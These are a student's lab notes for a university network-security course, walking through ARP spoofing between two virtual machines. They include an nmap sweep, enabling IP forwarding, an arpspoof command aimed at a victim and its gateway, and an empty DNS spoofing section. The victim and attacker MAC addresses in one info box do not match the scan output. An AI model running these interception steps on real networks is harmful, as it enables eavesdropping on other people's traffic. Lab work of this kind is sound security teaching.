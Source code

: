 ```yaml
---
title: A&D of Network Security - Lab 4(ARP & DNS SPOOFING)
tags: [NTU, NTU_PADNS]

category: "Security/Course/NTU PADNS"
---
```


# A&D of Network Security - Lab 4(ARP & DNS SPOOFING)
<!-- more -->
###### tags: `Practicum of A&D of NS` `NTU`

## Background
[ARP Spoofing at `1:15:00`](https://youtu.be/ha4w30V2cLM?si=eK2wwkqROck5n3SY&t=4497)

## ARP SPOOFING
1. Setting 2 VMs' network interface as Bridged adapter
    :::danger
    You supposed to use your own network instead of public network
    :::
2. Checking IP
![](https://i.imgur.com/V1CTmtr.png)

    ![](https://i.imgur.com/i6RUqmM.png)
And check the victim gateway by `nmap`
    ```bash!
    $ sudo nmap -sP 192.168.43.0/24
    Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-19 10:46 EDT
    Nmap scan report for DESKTOP-D0UCTM3 (192.168.43.56)
    Host is up (0.00020s latency).
    MAC Address: 68:54:5A:DC:03:57 (Intel Corporate)
    Nmap scan report for 192.168.43.66
    Host is up (0.010s latency).
    MAC Address: D4:38:9C:87:2F:C6 (Sony)
    Nmap scan report for kali (192.168.43.222)
    Host is up (0.00040s latency).
    MAC Address: 08:00:27:B1:9D:67 (Oracle VirtualBox virtual NIC)
    Nmap scan report for 192.168.43.78
    Host is up.
    Nmap done: 256 IP addresses (4 hosts up) scanned in 6.13 seconds
    ```
    :::info
    Victim VM $\to$ `192.168.43.222` / MAC $\to$ `08:00:27:F7:12:7A`
    Attacker VM $\to$ `192.168.43.78` / MAC $\to$ `08:00:27:B1:9D:67`
    Default Gateway $\to$ `192.168.43.66`
    :::
    

3. Open NAT Port Forwarding
* In Attacker VM
    ```bash!
    $ sudo su
    $ echo 1 > /proc/sys/net/ipv4/ip_forward
    $ exit
    $ cat /proc/sys/net/ipv4/ip_forward
    1
    ```
* In Victim VM
    ```bash
    $ arp -a
    ? (192.168.43.78) at 08:00:27:f7:12:7a [ether] on eth0
    DESKTOP-D0UCTM3 (192.168.43.56) at 68:54:5a:dc:03:57 [ether] on eth0
    DESKTOP-D0UCTM3 (192.168.43.56) at 68:54:5a:dc:03:57 [ether] on eth0
    ```
4. Start to attack
    ```bash
    $ sudo arpspoof -i eth0 -t 192.168.43.222 192.168.43.66
    // sudo arpspoof -i {網卡介面} -t {攻擊目標 IP} {Gateway IP}
    ```
5. Result
![](https://i.imgur.com/46xo2IZ.png)

    ![](https://i.imgur.com/2CG3iER.png)

    ![](https://i.imgur.com/qkkrFfy.png)


### Problem & Solved
:::info
If you can not install `dsniff`, you may update and upgrade the whole system with command `sudo apt-get update; sudo apt-get upgrade`(It may take lot's of time to finish the work)
:::

## DNS SPOOFING
